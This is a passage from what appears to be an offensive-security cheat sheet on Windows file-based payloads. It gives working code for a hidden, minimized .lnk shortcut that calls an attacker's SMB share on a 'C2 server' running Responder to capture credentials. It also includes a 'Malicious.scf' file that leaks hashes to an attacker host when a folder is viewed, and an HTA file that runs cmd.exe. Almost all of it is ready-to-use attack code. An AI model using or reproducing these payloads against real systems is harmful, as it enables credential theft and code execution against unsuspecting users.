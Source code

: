 ### Advanced PowerShell Example

```c
$path                      = "$([Environment]::GetFolderPath('Desktop'))\<FILE>.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c explorer.exe Z:\PATH\TO\SHARE & \\<LHOST>\foobar" # Calls the SMB share of the responder instance on the C2 server
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = ""

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

### Hide Target Folder

```c
C:\> attrib -h Z:\PATH\TO\FOLDER\<FOLDER>
```

## .SCF (Shell Command File) File

### Malicious.scf

```c
[Shell]
Command=2
Iconfile=\\<LHOST>\foobar
[Taskbar]
Command=ToggleDesktop
```

## An HTML Application (HTA)

### payload.hta

```c
<html>
<body>
<script>
  var c= 'cmd.exe'
  new ActiveXObject('Wscript.Shell').Run(c);
</script>
</body>
</html>
```
